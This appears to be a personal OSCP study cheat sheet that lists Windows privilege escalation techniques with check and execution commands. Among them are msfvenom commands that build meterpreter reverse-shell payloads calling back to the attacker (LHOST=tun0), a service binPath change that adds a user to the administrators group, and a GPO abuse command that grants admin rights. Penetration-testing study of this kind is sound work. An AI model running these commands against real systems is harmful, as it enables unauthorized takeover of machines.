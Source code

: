 # Windows Privilege Escalation Methods

Below are some of the more common methods of privilege escalation that I have come across during the course of my OSCP journey.

-----


### SeImpersonatePrivilege
- Allows for token impersonation. Can be abused to escalate privileges when this policy is enabled. 

#### Check:
``` 
whoami /priv
```

#### Payload / Execution:
 - Multiple exploits:
    - Juicy Potatoe / Lovely Potatoe
    - PrintSpoofer.exe
 

---

### Unquoted Service Path
 - When a service name is not within quotations, Windows will check each "stop" along the path where the spaces occur.

#### Check:
 
 - powerup:
```
Invoke-AllChecks
```
 - If service names known:
```
sc qc servicename

```

#### Payload / Execution:
Service at:
```
C:\Program Files\New Service\service.exe
``` 

```
powerup:
Write-ServiceBinary -ServiceName 'New Service' -Path <HijackPath>

OR manually place payload at:
C:\Program.exe
OR
C:\Program Files\new.exe
```
Then, restart the service to execute the payload:
```
sc restart "New Service"
```

---
### AlwaysInstallElevatated - Registry Escalation Exploitation

#### Check:
``` 
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
 
```
#### Payload/Execution:
``` 
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 -f msi -o exp.msi
```

---

### GPO Abuse

#### Check:
``` 
powerview:
Get-NetGPO
```

#### Payload / Execution:
``` 
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Administrator --GPOName "Default Domain Policy"
```

---

### DLL Hijacking

#### Check:
``` 
powerup:
Invoke-AllChecks
```


#### Payload / Execution:
``` 
With powerup:
Write-HijackDll -DllPath 'C:\Program Files\program\func.dll

Manually:
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=tun0 LPORT=443 > exp.dll

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=tun0 LPORT=443 > exp.dll
```
----

### binPath

#### Check:
``` 
accesschk64.exe -wuvc daclsvc
```
Confirmation:
    -  “SERVICE_CHANGE_CONFIG”


#### Payload / Execution:
``` 
sc config daclsvc binpath= "net localgroup administrators user /add
sc start daclsvc
```

---

### Kernel Exploits:
https://github.com/Ascotbe/Kernelhub/tree/master/Windows

https://github.com/SecWiki/windows-kernel-exploits

---
### Other Methods:
 - UAC Bypass
   - fodhelper
   - accesschk
   - psexec with -accepteula (from Administrator to nt authority/service)
   - taihou
 - Registry - Other methods like AutoRun
 - Password Mining - Configuration / Memory

